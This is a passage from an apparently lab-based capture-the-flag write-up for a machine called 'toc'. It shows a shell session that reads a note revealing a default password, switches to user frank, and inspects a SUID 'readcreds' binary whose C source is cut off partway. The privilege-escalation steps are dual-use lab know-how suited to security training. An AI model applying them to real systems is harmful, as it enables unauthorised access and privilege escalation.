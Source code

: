 **`new_machine.txt`:**
```
www-data@toc:/var/www/html/cmsms$ cat /home/frank/new_machine.txt 
I'm gonna be switching computer after I get this web server setup done. The inventory team sent me a new Thinkpad, the password is "password". It's funny that the default password for all the work machines is something so simple...Hell I should probably change this one from it, ah well. I'm switching machines soon- it can wait.
```

`The inventory team sent me a new Thinkpad, the password is "password".`

**So user `frank` password is `password`??**

**Let's Switch User to `frank`:**
```
www-data@toc:/var/www/html/cmsms$ su frank
Password: 
frank@toc:/var/www/html/cmsms$ whoami;id
frank
uid=1000(frank) gid=1000(frank) groups=1000(frank),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd)
```

I'm user `frank`!

### frank to root

**Hmm... How about the `/root_access` directory?**
```
frank@toc:/var/www/html/cmsms$ cd ~/root_access/
frank@toc:~/root_access$ ls -lah
total 28K
drwxr-xr-x 2 frank frank 4.0K Jan 31  2021 .
drwxr-xr-x 5 frank frank 4.0K Aug 18  2020 ..
-rwsr-xr-x 1 root  root  8.5K Jan 31  2021 readcreds
-rw-r--r-- 1 root  root   656 Jan 31  2021 readcreds.c
-rw------- 1 root  root    34 Aug 23  2020 root_password_backup
```

In here, we can't read the `root_password_backup` file, as **it's only readable and writable by `root`**.

**But, the `readcreds` looks like is an exeutable written in C, and it has a SUID sticky bit, which allows us to execute it as the owner of the file (`root`)!**
```
frank@toc:~/root_access$ file readcreds
readcreds: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0379954311c3c40ed2710754cfd967d8fc6a27ab, not stripped
```

**Let's read the source code of that executable!**
```c
#include <string.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>

int main(int argc, char* argv[]) {
    int file_data; char buffer[256]; int size = 0;

    if(argc != 2) {
        printf("Binary to output the contents of credentials file \n ./readcreds [file] \n"); 
	exit(1);
    }

    if (!access(argv[1],R_OK)) {
```